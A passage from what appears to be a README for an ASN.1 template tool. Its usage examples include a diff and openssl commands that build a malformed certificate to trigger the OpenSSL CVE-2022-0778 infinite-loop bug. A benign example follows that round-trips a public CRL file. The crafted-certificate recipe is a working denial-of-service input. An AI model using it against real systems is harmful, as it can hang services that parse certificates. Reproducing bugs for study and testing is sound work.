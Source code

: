 Change some of the values in the template according to https://github.com/drago-96/CVE-2022-0778 and https://github.com/drago-96/CVE-2022-0778/pull/4 :
```bash
$ diff -u cert.tpl cert_new.tpl
--- cert.tpl	2022-08-18 15:42:00.593000000 +0200
+++ cert_new.tpl	2022-08-18 15:44:01.220000000 +0200
@@ -48,11 +48,11 @@
 field34@377-2-1 = INTEGER:0x01
 [seq17@136-2-44]
 field35@138-2-7 = OBJECT:prime-field
-field36@147-2-33 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
+field36@147-2-33 = INTEGER:0x2B9
 [seq18@182-2-91]
-field37@184-2-32 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
-field38@218-2-32 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
-field39@252-2-21 = FORMAT:HEX,BITSTRING:C49D360886E704936A6678E1139D26B7819F7E90
+field37@184-2-32 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000017
+field38@218-2-32 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000000
+field39@252-2-21 = FORMAT:HEX,BITSTRING:0308
 [seq10@416-2-83]
 field40@418-2-81 = SEQUENCE:seq19@418-2-81
 [seq19@418-2-81]
```

Then convert the template back to DER encoded ASN.1:
```bash
$ openssl asn1parse -genconf cert_new.tpl -noout -out cert_new.der

```

Finally, try to display this certificate with a CVE-2022-0778 vulnerable OpenSSL installation:
```bash
$ openssl x509 -inform DER -in cert_new.der -noout -text
```

## Example #3 - CRL file and PKCS7

It works on certificates, but, more generally, on arbitrary DER encoded ASN.1
blobs. Here is the same as example #1 but with a CRL file:

```bash
$ wget -o /dev/null https://crl.pki.goog/gtsr1/gtsr1.crl
$ ./asn1template.pl gtsr1.crl > gtsr1.tpl
$ openssl asn1parse -genconf gtsr1.tpl -noout -out gtsr1_new.crl
$ diff gtsr1.crl gtsr1_new.crl
$ echo $?
0
```

Or with an smime.p7s email signature taken from https://datatracker.ietf.org/doc/html/rfc4134 (page 87):
